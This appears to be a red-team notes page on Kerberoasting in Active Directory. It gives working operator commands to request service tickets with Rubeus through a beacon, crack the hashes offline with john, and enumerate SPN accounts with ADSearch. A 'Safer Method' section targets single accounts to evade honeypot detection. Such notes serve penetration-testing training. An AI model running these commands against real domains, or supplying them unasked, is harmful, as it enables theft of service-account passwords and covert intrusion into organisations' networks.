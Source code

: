# Kerberoasting

## Introduction

Kerberoasting is an attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (SPN).&#x20;

**How it works**: An unauthenticated domain user can request a Kerberos ticket for an SPN. The kerberos ticket is encrypted with the hash of the service account. Adversaries then work offline to crack the password hash.

## Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe kerberoast /simple /nowrap

[*] Total kerberoastable users : 3
<hashes will be here>
```

## Crack Passwords

```sh
$ john --format=krb5tgs --wordlist=wordlist mssql_svc
```

<mark style="color:red;">**Note**</mark>: some hash formats can incompatibility with john. &#x20;

Removing the SPN so it became: `$krb5tgs$23$*mssql_svc$dev.domain.lab*$6A9E[hash]` seemed to address the issue.

## Safer Method

<mark style="color:red;">**Note**</mark>: By default, Rubeus will roast every account that has an SPN. Honey Pot accounts can be configured that will catch these type of attacks.

### Enumerate SPN accounts

```bash
beacon> execute-assembly C:\Tools\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" 
--attributes cn,servicePrincipalName,samAccountName
```

### Rubeus /user

Roast an indiviual account with the /user parameter

```bash
beacon> execute-assembly C:\Tools\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```
